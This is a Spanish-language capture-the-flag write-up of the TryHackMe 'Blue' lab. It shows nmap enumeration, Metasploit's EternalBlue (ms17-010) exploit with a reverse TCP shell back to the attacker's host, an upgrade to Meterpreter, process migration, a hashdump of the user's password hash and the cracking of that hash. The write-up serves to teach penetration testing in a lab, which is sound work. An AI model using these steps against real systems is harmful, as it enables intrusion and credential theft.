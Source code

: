 # Máquina Blue
[![English](https://img.shields.io/badge/English-blue.svg)](README.md) [![Español](https://img.shields.io/badge/Español-green.svg)](README.es.md)

## Dificultad: Fácil

![Logo](img/blue.webp)

Empezamos haciendo un ping a la máquina objetivo. Vemos que está activa y por el ttl de 128, sabemos que es una máquina Windows.

```bash
ping -c 1 10.10.12.50
```

![Ping](img/ping.webp)

Para enumerar, voy a usar nmap, con -sC para usar los scripts de reconocimiento por defecto,-sV para detectar versiones de los servicios, -sS para que sea en modo sigiloso, y -p- para que escanee todos los puertos.

```bash
nmap -p- -sV -sC -sS 10.10.12.50
```

![nmap](img/nmap.webp)

De los puertos abiertos, los que más me llaman la atención son el **445**, que es el puerto de SMB, un puerto crítico por dónde puede haber vulnerabilidades, y el **3389**, que es el de RDP, otro que podría ser utilizado.  La versión de Windows: **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**, el nombre del Host: **JON-PC**, de lo que deducimos que hay un usuario llamado Jon en la máquina. Vemos que tanto **SMBv1** (smb-security-mode) como **SMBv2** (smb2-security-mode) están activos.

Ahora tenemos que encontrar alguna vulnerabilidad que explotar.

Lo primero que se me ocurre es buscar en Google la versión de Windows que usa para ver si tiene vulnerabilidades. Buscanddo en Google sobre esta versión del SO encontré esto:

![EternalBLue](img/eternalblue.webp)

Vemos que EternalBlue es un exploit que afecta a SMBv1 y entre otras la versión de Windows de la máquina objetivo. Este exploit permite ejecutar código remote en la máquina objetivo. Si bien ya fue parcheado, no sabemos si la máquina que atacamos ha sido parcheada. Podemos probarlo.

Abrimos metasploit con el comando:

```shell
msfconsole
```
Buscamos el exploit con:

```shell
search ms17-010
```

![Exploit](img/exploit.webp)

Seleccionamos el exploit con:

```shell
use 0
```

El payload que usa por defecto es suficiente, y nos dará acceso a la máquina con una shell inversa de Meterpreter pero, Tryhackme, para que practiquemos el paso de una shell normal de Windows a una shell de Meterpreter, nos sugiere usar en su lugar el siguiente payload para obtener una shell inversa normal de Windows:

```shell
set payload windows/x64/shell/reverse_tcp
```

![Payload](img/payload.webp)

Debemos ajustar la dirección del host remoto.

```shell
set RHOSTS 10.10.12.50
```

Y el host local. Vemos nuestra ip con el comando:

```shell
ip a
```

Y lo ajustamos:

```shell
set LHOST 10.10.162.56
```
Ahora ejecutamos el exploit con:

```shell
run
```

Efectivamente, la máquina es vulnerable al explot EternalBlue, si todo ha salido bien, deberíamos ver algo similar a esto:

![Run](img/run.webp)

Ya tenemos la shell inversa de Windows. Ahora dejamos la sesión en segundo plano con **ctrl + z** Y vamos  usar el módulo **post/multi/manage/shell_to_meterpreter** para realizar la escalada de privilegios a la shell de meterpreter.

Ahora tenemos que especificarle la sesión en la que conseguimos la shell inversa. Lo podemos comprobar con el comando:

```shell
sessions -l
```

Si solo has hecho esto será la 1.

Ahora usamos **run** para ejecutar el exploit. Este paso puede dar problemas en esta máquina, a mi me falló la primera vez y tuve que reiniciar la máquina, por eso tiene una ip distinta ahora. Si sale bien veremos algo similar a esto:

![Meterpreter](img/meterpreter.webp)

Ahora tenemos usa sesión con la shell inversa de meterpreter, que es la sesión 2. La activamos con el comando:

```shell
sessions -i 2
```

Ya la tenemos, podemos usar **whoami** para comprobar que tenemos los privilegios nt authority\system:

![whoami](img/whoami.webp)

Nosotros tenemos privilegios de administrador, pero nuestro proceso puede no tenerlos. Por tanto, vamos a migrar a un proceso que los tenga, usamos **ps** para listar los procesos:

![pid](img/pid.webp)

En mi caso voy a migrar a conhost.exe, intenté previamente migrar a svchost.exe pero me negaba el acceso. Para ellos usamos el comando **migrate** indicando el PID del proceso:

```shell
migrate 352
```

![migrate](img/migrate.webp)

Ahora se nos pide la contraseña del usuario Jon. Vamos a usar **hashdump** para obtener el hash de la misma:

![hashdump](img/hashdump.webp)

Ahora hay varias formas de crackear el hash. Podríamos usar John the Ripper y tratar de sacarlo mediante listas de palabras, yo he usado Crackstation por ser más rápido.

![CrackStation](img/crackstation.webp)

Ahora, para la primera bandera, nos dicen que está en la raíz del sistema. Que lo normal es que sea C:

```shell
cd C:\\
ls
cat flag.txt
```
![flag1](img/flag1.webp)

Nos dicen que la segunda bandera está dónde se almacenan las contraseñas de Windows. Es decir en **C:\Windows\System32\config**

```shell
cd C:\\Windows\\System32\\config
ls
cat flag2.txt
```

![flag2](img/flag2.webp)

La bandera 3, nos dicen que está dónde los administradores suelen guardar cosas importantes. Voy por tanto a C:\Users y el único usuario es Jon. Dentro de Jon, busco en Desktop, Downloads, y finalmente Documents, dónde se encuentra la última bandera.

![flag3](img/flag3.webp)

Por cierto, cuando te das cuenta de que se van a llamar flag1.txt, flag2.txt, etc, meterpreter tiene el comando **search -f** al que le pasas el nombre del fichero y te muestra la ruta al mismo. Ejemplo con flag3.txt:

```shell
search -f flag3.txt
```

![search](img/altenativa.webp)

Y con esto ya hemos resuelto la máquina.

![fin](img/fin.webp)